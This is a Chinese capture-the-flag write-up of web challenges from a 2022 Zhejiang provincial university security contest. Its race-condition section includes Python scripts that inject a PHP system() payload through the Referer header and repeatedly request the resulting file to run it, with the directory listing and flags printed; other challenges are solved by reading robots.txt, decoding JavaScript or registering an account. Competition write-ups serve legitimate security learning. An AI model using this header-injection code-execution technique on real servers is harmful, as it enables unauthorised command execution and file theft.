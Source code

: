 ```yaml
---
title: 第五届浙江省大学生网络与信息安全竞赛-技能挑战赛Web Writeup
date: 2022-09-17 22:46:00
updated: 2022-09-17 22:46:00
tags: [ctf,security]
---
```


记录省赛预赛两道没做出的Web题

## 买买买01
条件竞争，当时没思考清楚的问题是，我知道通过条件竞争可以短时间的在系统上有一个.txt.php文件，但是没想明白怎么去让这个php文件被解析，因为file_get_contents这个函数只能读取文件内容但是却不会解析。其实只要直接访问就行。。。。

多线程也行，同时运行俩python文件也行。

```python
import requests
while 1:
    response = requests.get(
        "http://1.14.97.218:21715/e7a1b1b1e092b53be5fa11394bbed8fb/e7a1b1b1e092b53be5fa11394bbed8fb.txt2.php")
    if response.status_code != 404:
        print(response.text)
```

```python
import requests
while 1:
    # res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('ls /');?>"})
    res = requests.get("http://1.14.97.218:21715/index.php?action=copy", headers={"referer": "<?php system('cat /fla444444444444g');?>"})
    # print(res.text)

```

```python
competebin
boot
dev
etc
fla444444444444g
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
```

```
competeDASCTF{43378609768205435621416258245141}
```

## nisc_easyweb
这个电脑没装扫描器省赛又不让上网。。。。所以根本就没发现/robots.txt

纯傻逼题目。。。

```python
http://1.14.97.218:27359/test_api.php?i=FlagInHere

DASCTF{84772015113998304475018439433695}
```

## js小游戏
f12一看index.js,base64解码就行

## 学生管理系统
注册账号就有Flag,可能是非预期吧

感觉预赛的时候有点手忙脚乱，继续沉淀。